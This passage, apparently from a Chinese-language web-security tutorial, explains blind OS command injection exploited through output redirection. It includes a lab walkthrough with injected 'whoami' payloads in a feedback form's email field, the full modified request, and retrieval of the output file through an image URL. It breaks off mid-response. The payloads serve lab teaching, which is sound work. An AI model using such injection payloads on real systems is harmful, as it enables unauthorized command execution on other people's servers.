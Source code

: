 

**输出重定向利用**

您可以将注入命令的输出重定向到 web 根目录中的文件，然后使用浏览器检索该文件。例如，如果应用程序从文件系统位置 `/var/www/static` 提供静态资源，则可以提交以下输入：

```
& whoami > /var/www/static/whoami.txt &
```

`>` 字符将 `whoami` 命令的输出发送到指定的文件。然后，您可以使用浏览器获取 `https://vulnerable-website.com/whoami.txt` 来检索文件并查看注入命令的输出。



实验

本实验中的反馈功能存在一个盲目的操作系统命令注入漏洞。

应用程序执行了一条包含用户提供的详细信息的 shell 命令。该命令的输出不会在响应中返回。然而，你可以使用输出重定向来捕获该命令的输出。在以下位置有一个可写文件夹：

```
/var/www/images/
```



该应用程序从此位置为产品目录提供图像服务。你可以将注入命令的输出重定向到此文件夹中的某个文件，然后使用加载图片的 URL 来检索该文件的内容。

要完成本实验，请执行 `whoami` 命令并获取其输出。



1. 使用 Burp Suite 拦截并修改提交反馈的请求。

2. 修改 `email` 参数，将其更改为：

    ```
    email=||whoami>/var/www/images/output.txt||
    ```

    ```
    csrf=5uUzVSTBpNQzQ7rNRdbAumHcIddlxBvL&name=Name&email=||whoami>/var/www/images/output.txt||&subject=test&message=test
    ```



3. 现在使用 Burp Suite 拦截并修改加载产品图片的请求。

4. 修改 `filename` 参数，将其值更改为指定给注入命令输出的文件名：

    ```
    filename=output.txt
    ```

    ```
    https://0a3d000b0319a40680271295002b005d.web-security-academy.net/image?filename=output.txt
    ```



5. 观察到响应中包含了注入命令的输出内容。

    ```
    HTTP/2 200 OK
    Content-Type: text/plain; charset=utf-8
    X-Frame-Options: SAMEORIGIN
    Content-Length: 13
    